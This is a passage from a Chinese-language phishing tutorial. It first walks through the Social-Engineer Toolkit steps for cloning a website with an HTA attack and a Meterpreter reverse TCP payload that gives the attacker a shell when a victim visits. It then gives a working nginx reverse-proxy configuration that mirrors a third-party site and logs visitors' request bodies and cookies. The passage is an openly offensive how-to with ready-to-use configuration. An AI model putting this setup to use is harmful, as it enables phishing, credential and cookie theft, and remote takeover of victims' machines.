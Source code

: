 ![]()

2、然后选择2，web网站式攻击-钓鱼

![]()

3、随后选择7，HTA攻击

![]()

4、选择2，克隆网站

![]()

5、输入克隆的站点，监听ip和端口默认就行，最后还需选择一个攻击载荷 Meterpreter Reverse TCP

![]()

当攻击者访问攻击机的ip时就会弹出弹窗并且上线shell

![]()

### 0x02、nginx反向代理克隆镜像网站

nginx有个反向代理功能，将客户端的请求均匀地分配到后端的多个业务服务器进行处理，nginx再将执行结果返回给客户端，以此来解决网站流量过大的问题。

利用nginx反向代理克隆生成镜像网站就是通过反向代理将请求分发到一个不属于我们的网站去处理，最后将处理的结果再通过nginx返回给用户。

1、打开nginx配置⽂件/www/server/nginx/conf/nginx.conf ， 在http处添加以下配置，指定日志的存储内容。

    
    
    log_format Clonelog escape=json '{$remote_addr|'  
        '$request_filename|'  
        '$request_body|'  
        '$http_cookie|'  
        '$http_x_forwarded_for|'  
        '$time_local}';

![]()

2、在/www/server/panel/vhost/nginx/目录下新增clone.conf，做如下配置，生成镜像网站

    
    
    server  
    {  
      
        listen 8000;  
        server_name 127.0.0.1;  
        index index.html index.htm index.php;  
        access_log /www/wwwlogs/access.log Clonelog;  
      
     location / {  
        proxy_pass http://xxx.xxx.com;  
        proxy_buffering off;  
        proxy_set_header X-Real-Ip $remote_addr;  
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;  
        proxy_set_header Host "xxx.xxx.com";  
        proxy_set_header Accept-Encoding "";  
        proxy_set_header User-Agent $http_user_agent;  
        proxy_set_header referer "http://xxx.xxx.com$request_uri";  
        }  
    }
